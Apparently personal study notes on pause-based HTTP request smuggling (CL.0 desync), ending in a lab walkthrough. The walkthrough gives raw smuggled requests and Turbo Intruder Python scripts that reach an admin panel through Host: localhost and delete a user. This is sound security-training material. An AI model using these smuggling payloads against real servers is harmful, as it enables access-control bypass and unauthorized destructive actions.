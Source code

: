There are many quite secure websites that can contain hidden desync vulnerabilities that can be revealed if you pause mid-request.

Servers usually are configured with a read timeout, and if they don't receive any more data for an amount of time, they treat the request as complete and issue a response. This regardless of how many bytes they were told to expect.

Pause based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync

It is dependent on some conditions:
- Frontend must immediately forward each byte of the request to the backend rather than waiting until it has received the full request.
- Frontend must not time out requests before the backend.
- Backend must leave the connection open for reuse following a read timeout.

### Example

Let's consider a CL.0 request smuggling attack scenario:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Now, what happens if we send the headers, but pause before sending the body?

- Frontend forwards the headers to the backend, and waits for the remaining bytes.
- After some time, backend times out and sends a response, and now the frontend may or may not read this response and forward to us.
- We send the body, which has a request smuggling prefix.
- Frontend treats this as a continuation of the initial request and forwards this to the backend down the same connection.
- Backend has responded to the initial request, so now thinks that these bytes are another request.

### Testing for pause based CL.0

In Repeater, create a CL.0 request smuggling probe like the one above, send it to `Turbo Intruder`.

In `Turbo Intruder`'s Python editor, adjust the request engine configuration to the following options:

```text
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

Queue the request and add the following arguments to the `queue()` interface:

`pauseMarker` - A list of strings after which you want to pause.
`pauseTime` - pause in ms.

Queue an arbitrary follow-up request as normal:

`followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n' engine.queue(followUp)`

Be sure that you are logging all the responses:

```python
def handleResponse(req, interesting):
    table.add(req)
```

# Exploiting pause-based desync attacks

The frontend streamas requests to the backend, and the backend doesn't close hte connection after a timeout on some endpoints.

The goal is to identify a pause-based CL.0 desync vector, smuggle a request to the admin at `/admin` and delete the user `carlos`.

Find an on-site redirect, and in our case is `lab.com/resources` which redirects to `lab.com/resources/`

Install `Turbo Intruder` extension, and send his request to the Turbo Intruder.

Change the request to `POST` and add a smuggled request like in CL.0, that tries to access `/admin/`. Also don't forget to add `Connection: keep-alive`.

```http
POST /resources HTTP/1.1
Host: lab.net
Cookie: session =...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: lab.net
```

And modify the `Python` code part as follows:

```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


In the first request we got a `302` and in the second there is a `401 Unauthorized` and `Admin interface only available to local users`.

In this case let's put `localhost` in the Host of the smuggled request.

And we're inside the admin panel, where it asks us for a username and there is a button to `Delete user`:

![[Pasted image 20250120145134.png]]

But for that our smuggled request needs to be a `POST` and not a `GET`. In the `HTML` that was returned we got a lot of information such as `csrf, action`.

Now let's edit our smuggled request:

```http
POST /resources HTTP/1.1
Host: 0a4b00750429868981989d94007c001a.web-security-academy.net
Cookie: session=FpdxixgCl7dcLByFAvM9TGGuxbqjCn2q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=KnKcB6Gamprqao6cSwbz2MzUMQ3CTpvq&username=carlos
```

Very important is the `Content-Length` as you need to calculate for both the body of the smuggled request which in this case is 53, and the complete body of the first request which is 171.

Then in the Python code, change the `pauseMarker`:

```python
...
engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
...
```

This, because if we leave as before with `\r\n\r\n` then it will pause two times, and we have to differentiate between them.

Now send it, and the response to the second request is:

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: session=cQBLRASV9VznhaGMEnCibhhjLfieb8CL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Server: Apache/2.4.52
Keep-Alive: timeout=120
Content-Length: 0
```

Meaning that the user `carlos` has been deleted, and the lab has been solved.
